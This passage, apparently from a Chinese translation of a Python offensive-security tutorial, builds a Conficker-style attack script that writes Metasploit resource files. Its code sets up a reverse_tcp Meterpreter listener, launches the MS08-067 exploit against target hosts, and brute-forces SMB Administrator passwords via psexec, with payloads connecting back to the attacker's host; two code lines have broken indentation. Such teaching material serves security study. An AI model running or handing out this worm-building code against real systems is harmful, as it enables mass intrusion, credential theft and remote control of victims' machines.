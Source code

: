 当 Meterpreter 反向连接到攻击者主机，并控制主机的 Metasploit 的模块叫做`multi/handler`。为了在我们的主机上设置`multi/handler`的监听器，我们首先要写下指令到 Metasploit 的资源配置文件中。注意，我们如何设置一个有效的 TCP 反弹连接的攻击荷载并标明我们本地主机将要接受连接的地址和端口号。此外，我们将设置一个全局配置`DisablePayloadHandler`来标识以后我们所有的主机都不必设置监听器，因为我们已经正在监听了。

```py
def setupHandler(configFile, lhost, lport):
    configFile.write('use exploit/multi/handler\n')
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
    configFile.write('set LPORT ' + str(lport) + '\n')
    configFile.write('set LHOST ' + lhost + '\n')
    configFile.write('exploit -j -z\n')
configFile.write('setg DisablePayloadHandler 1\n') 
```

最后，脚本已经准备好了攻击目标主机。这个函数将接收一个 Metasploit 配置文件，一个目标主机，一个本地地址和端口作为输入进行渗透测试。这个函数写入特定的 exploit 到配置文件中。它首先选择特殊的`exploit---ms08-067_netapi`，曾经被 Conficker 蠕虫利用的 exploit 攻击目标。此外，它还要选择 Meterpreter 攻击荷载需要的本地地址和本地端口。最后，它发送一个指令开始攻击目标主机，在后台执行工作(`-j`)，但并不马上打开交互(`-z`)，该脚本需要一些特定的选项，因为它将攻击多个主机，无法与所以的主机进行交互。

```py
def confickerExploit(configFile, tgtHost, lhost, lport):
    configFile.write('use exploit/windows/smb/ms08_067_netapi\n')
    configFile.write('set RHOST ' + str(tgtHost) + '\n')
    configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
    configFile.write('set LPORT ' + str(lport) + '\n')
    configFile.write('set LHOST ' + lhost + '\n')
configFile.write('exploit -j -z\n') 
```

## 远程执行暴力破解

当攻击者成功的启动`ms08-067_netapi`的 exploit 攻击全世界的受害者的时候，管理员安装最新的安全补丁能轻松的组织攻击。因此，脚本将使用 Conficker 蠕虫使用的第二个攻击向量。它将通过用户名和密码的组合暴力破解 SMB 服务获得对主机的远程远程执行程序的权限。

函数 smbBrute 接受 Metasploit 配置文件，目标主机，一系列密码的文件，本地地址和本地端口作为输入，然后进行监听。它设置用户名为默认的 Windows 管理员 administrator 然后打开密码文件。对于文件的每一个密码，函数将建立一个 Metasploit 资源配置文件为了使用远程执行程序的 exploit。如果一个用户名和密码组合成功了，exploit 将会启动 Meterpreter 攻击荷载反向连接到本地的地址和端口。

```py
def smbBrute(configFile, tgtHost, passwdFile, lhost, lport):
    username = 'Administrator'
    pF = open(passwdFile, 'r')
    for password in pF.readlines():
        password = password.strip('\n').strip('\r')
        configFile.write('use exploit/windows/smb/psexec\n')
        configFile.write('set SMBUser ' + str(username) + '\n')
        configFile.write('set SMBPass ' + str(password) + '\n')
        configFile.write('set RHOST ' + str(tgtHost) + '\n')
        configFile.write('set PAYLOAD windows/meterpreter/reverse_tcp\n')
        configFile.write('set LPORT ' + str(lport) + '\n')
        configFile.write('set LHOST ' + lhost + '\n')
        configFile.write('exploit -j -z\n') 
```

## 将所有的放在一起建立我们自己的 Conficker 蠕虫
